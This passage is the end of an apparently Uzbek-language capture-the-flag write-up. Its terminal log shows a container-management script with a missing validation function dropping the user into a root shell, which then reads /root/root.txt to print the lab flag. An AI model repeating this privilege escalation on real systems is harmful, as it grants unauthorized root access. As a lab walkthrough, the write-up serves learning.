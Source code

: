 Jarayon:

```
think@ip-10-10-252-203:/tmp$ /usr/sbin/run_container
List of Docker containers:
ID: 41c976e507f8 | Name: jovial_hertz | Status: Up 2 hours

Enter the ID of the container or leave blank to create a new one: 1
/opt/run_container.sh: line 16: validate_container_id: command not found

OPTIONS:
1) Start Container    3) Restart Container  5) Quit
2) Stop Container     4) Create Container
Choose an action for a container: 1
Error response from daemon: No such container: 1
Error: failed to start containers: 1
bash-5.0# whoami
root
bash-5.0# cat /root/root.txt
3a4225cc9e85709adda6ef55d6a4f2ca   
```

Bingo!!!

Qiziqarli va yangi bilimlarga boy bo'ldi degan umiddaman.

Foydam tegkan bo'lsa xursandman.



### Nafas olar ekanman, men yana davom etaman...